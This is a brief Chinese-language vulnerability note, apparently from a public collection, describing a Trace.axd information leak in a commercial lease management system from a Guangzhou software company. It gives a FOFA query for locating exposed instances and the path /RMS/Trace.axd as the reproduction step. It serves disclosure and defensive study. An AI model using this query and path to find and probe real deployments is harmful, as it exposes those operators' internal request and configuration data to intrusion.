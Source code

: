 # 竞优（广州）信息技术有限公司商业租赁管理系统存在Trace信息泄露

# 一、漏洞简介
作为地产及不动产数字化行业深耕者，三十多年来始终专注于企业管理软件的技术开发和咨询服务。我们多年对地产及不动产行业的专注投入、以及深刻理解能为企业提供专业的产品、高效的实施服务、强大的技术支持和优质的售后保障。竞优（广州）信息技术有限公司商业租赁管理系统存在Trace信息泄露

# 二、影响版本
+ 商业租赁管理系统

# 三、资产测绘
+ fofa：`web.body="商业租赁管理系统"`
+ 特征

![1734059111504-935ba16c-2b17-4fde-bfb1-1e1aaeca4365.png](./img/aqlzwYG_j1SYsfpl/1734059111504-935ba16c-2b17-4fde-bfb1-1e1aaeca4365-447474.png)

# 四、漏洞复现
```java
/RMS/Trace.axd
```

![1734059130097-8678b441-56e8-4fde-86b4-c14ec8c293ea.png](./img/aqlzwYG_j1SYsfpl/1734059130097-8678b441-56e8-4fde-86b4-c14ec8c293ea-490959.png)



> 更新: 2024-12-20 14:53:54  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kf3819ge5d4qk9wk>